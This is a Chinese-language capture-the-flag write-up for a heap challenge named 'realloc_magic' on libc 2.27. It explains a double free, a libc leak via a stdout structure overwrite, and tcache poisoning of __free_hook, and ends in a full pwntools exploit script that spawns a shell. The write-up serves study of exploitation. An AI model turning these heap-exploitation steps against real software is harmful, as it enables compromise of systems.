 ### 程序分析

该程序使用的是libc2.27

程序有3个功能

1. realloc
2. free
3. back_door

#### realloc

![](t1.png)
程序代码如上

可以看到功能非常简单

读取一个size，然后调用realloc去重新分配内存，最后使用read去读取内容

但是realloc对于不同size，有不同的功能

* size == 0 ，这个时候等同于free
* realloc_ptr == 0 && size > 0 ， 这个时候等同于malloc
* malloc_usable_size(realloc_ptr) >= size， 这个时候等同于edit
* malloc_usable_size(realloc_ptr) < szie， 这个时候才是malloc一块更大的内存，将原来的内容复制过去，再将原来的chunk给free掉

#### free

![](t2.png)

这里就是单纯的free，并且没有置0

#### back_door

![](t3.png)

这里是将realloc_ptr置为0，并且机会只有一次

### 漏洞利用

程序很明显有double free的漏洞，但是怎么利用是一个问题

程序把所有保护都开启了，并且没有show函数，因此第一步就首先要leak libc地址

这里采用的攻击stdout 结构体，修改flag和write_base

#### leak libc

首先分配三个chunk，A、B、C、D，大小分别为0x68, 0x98, 0xa8, 0xb8

分配之后的内存布局如图

![](t4.png)

对应的exp如下

```
realloc(0x68,'a')
realloc(0,'')
realloc(0x98,p64(0)*5+p64(0x21)+p64(0)*2+p64(0x20)+p64(0x21))
realloc(0,'')
realloc(0xa8,'c')
realloc(0,'')
```

首先将chunk B delete到刚好进入unsorted bin，然后再realloc回 chunk A，然后realloc刚好 chunk A + chunk B的size，这样就能修改chunk B处的libc地址，在干这个的同时把chunkB的size也改掉

完成之后的结果如图

![](t5.png)

对应的exp如下
```
realloc(0x98,'d')
for i in range(7):
    delete()
realloc(0,'')
realloc(0x68,'e')
realloc(0x100,'\0'*0x68+p64(0x31)+'\x60\x77')
```

之后再realloc两次0x98的chunk，就能控制到stdout，然后修改flags，write_base

因为这里攻击是依靠碰撞，需要碰撞4bit，概率其实还好

攻击完之后，因为需要回到正常的heap堆，因此这里提供了一个后面，可以清空一次realloc_ptr

exp如下

```
realloc(0,'')
realloc(0x98,'f')
realloc(0,'')
realloc(0x98,p64(0xfbad3887)+p64(0)*3+'\0',False)

data = ru(p64(0xffffffffffffffff))
if len(data) < 10 or data[:8]!=p64(0):
    exit(-1)
#gdb.attach(p)
libc = u64(data[8:16])
base = libc-0x3ed8b0
free_hook = base+0x3ed8e8
system = base+0x4f440
ru('>>')
back()
```

然后再将chunk B的size修改为0xa1，然后利用tcache poison attack到free_hook，修改为system，之后就可以调用system("/bin/sh")

最后这部分的payload入下
```
realloc(0x20,'g')
realloc(0,'')

realloc(0x100,'\0'*0x68+p64(0xa1)+p64(free_hook-8))
realloc(0,'')
realloc(0x20,'g')
realloc(0,'')
realloc(0x20,'/bin/sh\0'+p64(system))
```


完整payload如下

```
from pwn import *

debug=1
context.log_level='debug'


if debug:
    p=process('./realloc_magic')
else:
    p=remote()

def ru(x):
    return p.recvuntil(x,timeout=1)
    
def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)


def realloc(sz,data,wait=True):
    sl('1')
    ru('Size')
    sl(str(sz))
    ru('Content?\n')
    if sz == 0:
        if wait:
            ru('>>')
    else:
        se(data)
        if wait:
            ru('>>')

def delete():
    sl('2')
    ru('>>')

def back():
    sl('666')
    ru('>>')

realloc(0x68,'a')
realloc(0,'')
realloc(0x98,p64(0)*5+p64(0x21)+p64(0)*2+p64(0x20)+p64(0x21))
realloc(0,'')
realloc(0xa8,'c')
realloc(0,'')
realloc(0x98,'d')
for i in range(7):
    delete()
realloc(0,'')
realloc(0x68,'e')
#realloc(0x100,'\0'*0x68+p64(0x31)+'\x60\x07\xdd')
realloc(0x100,'\0'*0x68+p64(0x31)+'\x60\x77')
realloc(0,'')
realloc(0x98,'f')
realloc(0,'')
realloc(0x98,p64(0xfbad3887)+p64(0)*3+'\0',False)

data = ru(p64(0xffffffffffffffff))
if len(data) < 10 or data[:8]!=p64(0):
    exit(-1)
#gdb.attach(p)
libc = u64(data[8:16])
base = libc-0x3ed8b0
free_hook = base+0x3ed8e8
system = base+0x4f440
ru('>>')
back()

realloc(0x20,'g')
realloc(0,'')

realloc(0x100,'\0'*0x68+p64(0xa1)+p64(free_hook-8))
realloc(0,'')
realloc(0x20,'g')
realloc(0,'')
realloc(0x20,'/bin/sh\0'+p64(system))
sl('2')

print(hex(base))
p.interactive()
```